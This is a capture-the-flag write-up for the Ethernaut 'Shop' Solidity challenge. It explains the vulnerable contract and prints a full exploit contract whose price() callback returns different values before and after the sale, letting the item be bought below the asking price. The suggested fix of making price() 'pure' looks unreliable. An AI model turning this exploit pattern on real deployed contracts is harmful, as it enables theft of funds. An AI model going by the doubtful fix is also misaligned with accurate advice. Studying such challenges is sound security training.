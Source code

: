 # Writeup for Shop

- Hello h4ck3r, welcome to the world of smart contract hacking. Solving the challenges from Ethernaut will help you understand Solidity better. Each challenge involves deploying a contract and exploiting its vulnerabilities. If you're new to Solidity and haven't deployed a smart contract before, you can learn how to do so using Remix [here](https://youtu.be/3xNFZI8Ste4?si=i3cWN87OpX85zp6k).

### Challenge Description

Can you get the item from the shop for less than the price asked?

Things that might help:

- Shop expects to be used from a Buyer
- Understanding restrictions of view functions

### Contract Explanation

If you understand the contract, you can move on to the [exploit](#exploit) part. If you're a beginner, please read the Contract Explanation to gain a better understanding of Solidity.

<details>
<summary>Click to view the source contract and contract explanation</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Buyer {
    function price() external view returns (uint256);
}

contract Shop {
    uint256 public price = 100;
    bool public isSold;

    function buy() public {
        Buyer _buyer = Buyer(msg.sender);

        if (_buyer.price() >= price && !isSold) {
            isSold = true;
            price = _buyer.price();
        }
    }
}

```

The contract has two state variables named `price` and `isSold`. `price` is of type **uint256** and it is initialized to 100, while `isSold` is of type **bool**.

```solidity
function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
        isSold = true;
        price = _buyer.price();
    }
}
```

The function `buy()` initializes the variable `_buyer` of type `Buyer` interface with `msg.sender`. It then checks if the price offered by the buyer is greater than or equal to the current price and if the item has not been sold yet. If both conditions are met, the item is marked as sold and the price is updated to the buyer's price.

</details>

### Exploit

```solidity
function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
        isSold = true;
        price = _buyer.price();
    }
}
```

If we see the `buy()` function, in the if condition, it will check if the buyer's price is more than the current price or not. But the buyer's price is taken by making a call to the buyer. Once the conditions are satisfied, then it sets `isSold` to true and it sets the price by again making a call to the buyer.

So in our exploit contract, if we somehow return the price value `>100` for the first time it is called and if we return a value less than `<100` for the second time it is called, then our challenge will be solved.

But if we check the Buyer interface, we can find that `price()` is a view-only function, which means we cannot make any state changes in the `price()` function.

Once the if condition in `buy()` is satisfied, then `isSold` is set to true and then the price value is fetched from the buyer. Since `price()` function is a view function, we can check if `isSold` is true or false before returning the price. Based on that, we can write the exploit contract. Below is the exploit contract.

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Ishop{
    function isSold() external view returns (bool);
    function buy()external;
}

contract ExploitShop{
    Ishop shop;
    constructor(address _addr){
        shop=Ishop(_addr);
    }

    function Exploit()public{
        shop.buy();
    }

    function price() external view returns(uint256){
        if(shop.isSold()){
            return 0;
        }
        return 101;
    }
}
```

If we see the `price()` function in our exploit contract, first it will check if the item is sold or not. If the item is sold, it will `return 0`, otherwise it will `return 101`.

Once we call the `Exploit()` function, our challenge will be solved.

### Key Takeaways

We should be careful when the logic in our contract is dependent on other contract calls. In this case, if the `price()` function is a `pure function` instead of a `view function`, then the function won't be able to read state variables from other contracts.

<p style="text-align:center;">***<strong>Hope you enjoyed this write-up. Keep on hacking and learning!</strong>***</p>
